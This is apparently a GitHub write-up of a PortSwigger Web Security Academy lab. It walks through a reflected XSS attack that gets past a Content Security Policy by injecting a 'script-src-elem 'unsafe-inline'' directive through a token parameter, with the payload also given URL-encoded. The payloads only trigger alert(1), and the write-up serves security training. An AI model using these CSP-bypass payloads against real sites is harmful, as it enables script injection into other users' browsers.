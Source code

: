 ## Welcome, my friend. Today we will start the [32. XSS lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/8d8c1539-bde3-45c9-96bc-cd200603e44e)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/02ad1f6e-17c2-4af2-82e9-af052f5d58e0)


### Here there html injection, Let's enter malicios code to discover XSS vulnerability:

```
<img src=1 onerror=alert(1)>
```

![image](https://github.com/user-attachments/assets/c354c93c-e58d-4174-b803-3ffd8a2dad5c)


### But this lab doesn't solved. Because there is CSP prevent this paylaod, So we will try escape from CSP:

```
token=;script-src-elem 'unsafe-inline'
```

### Our full payload :

```
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

### But we encoded to url encode:

```
%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

![image](https://github.com/user-attachments/assets/3f9bb3d3-b1bc-4f59-ba58-0a53d3d0c28d)


![image](https://github.com/user-attachments/assets/3e373247-ca5f-4288-a961-71a63016b51e)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/c25cae8d-1ac9-4042-9bb2-8e28b6944ba2" >
</p>
